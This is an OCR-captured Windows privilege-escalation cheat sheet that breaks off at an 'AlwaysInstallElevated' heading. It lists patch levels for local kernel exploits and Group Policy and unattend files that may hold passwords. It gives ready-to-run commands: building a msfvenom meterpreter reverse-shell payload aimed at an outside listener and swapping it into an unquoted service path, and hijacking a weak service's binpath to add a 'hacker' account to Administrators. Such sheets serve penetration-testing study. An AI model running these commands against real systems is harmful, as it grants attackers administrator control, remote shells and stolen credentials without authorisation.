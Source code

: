 ```bat
LOCAL EXPLOITS
KiTrap0D (KB979682), MS11-011 (KB2393802), MS10-059 (KB982799), MS10-021 (KB979683), MS11-080 (KB2592799)
-patch levels corresponding to most common windows privesc exploits for xp/vista/7/server2003-2008
KB2503665:
    patch level for afd.sys(40564) local exploit (xp sp3, server 2003 sp2, vista sp1/2, server 2008 sp1/2, 7 (sp0/1)
    Table of patch replacements:
#                               | MS11-046  | MS11-080  | MS12-009  | MS13-093  | MS14-040  |
#                               -------------------------------------------------------------
#                               | KB2503665 | KB2592799 | KB2645640 | KB2875783 | KB2975684 |
#   -----------------------------------------------------------------------------------------
#   Windows x86 XP SP3          | Installed | <-Replaces|     -     |     -     |     -     |
#   Windows x86 Server 2003 SP2 | Installed | <-Replaces| <-Replaces|     -     | <-Replaces|
#   Windows x86 Vista SP1       | Installed |     -     |     -     |     -     |     -     |
#   Windows x86 Vista SP2       | Installed |     -     |     -     |     -     | <-Replaces|
#   Windows x86 Server 2008     | Installed |     -     |     -     |     -     |     -     |
#   Windows x86 Server 2008 SP2 | Installed |     -     |     -     |     -     | <-Replaces|
#   Windows x86 7               | Installed |     -     |     -     |     -     |     -     |
#   Windows x86 7 SP1           | Installed |     -     |     -     |     -     | <-Replaces|
 
 
Policy files (may contain passwords)
SYSVOL/(../)Groups.xml
Services\Services.xml: Element-Specific Attributes
ScheduledTasks\ScheduledTasks.xml: Task Inner Element, TaskV2 Inner Element, ImmediateTaskV2 Inner Element
Printers\Printers.xml: SharedPrinter Element
Drives\Drives.xml: Element-Specific Attributes
DataSources\DataSources.xml: Element-Specific Attributes
 
 
Configuration files commonly left behind by mass rollouts/older (pre-)devops
c:\sysprep.inf
c:\sysprep\sysprep.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml
 
Trusted Service Paths
    exploit/windows/local/trusted_service_path
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
icacls "C:\Program Files (x86)\Target"
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=10.0.0.100 LPORT=443 -f exe -o target.exe
    -now replace Target\target.exe with payload
sc stop target
sc start target
    -now the reverse shell should be spawned as privileged user
 
Vulnerable Services
    exploit/windows/local/service_permissions
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
sc qc target
sc config target binpath= "net user hacker P@ssword123! /add"
sc stop target
sc start target
sc config target binpath= "net localgroup Administrators hacker /add"
sc stop target
sc start target
    -errors may occur starting service, but only after commands are executed
 
AlwaysInstallElevated
```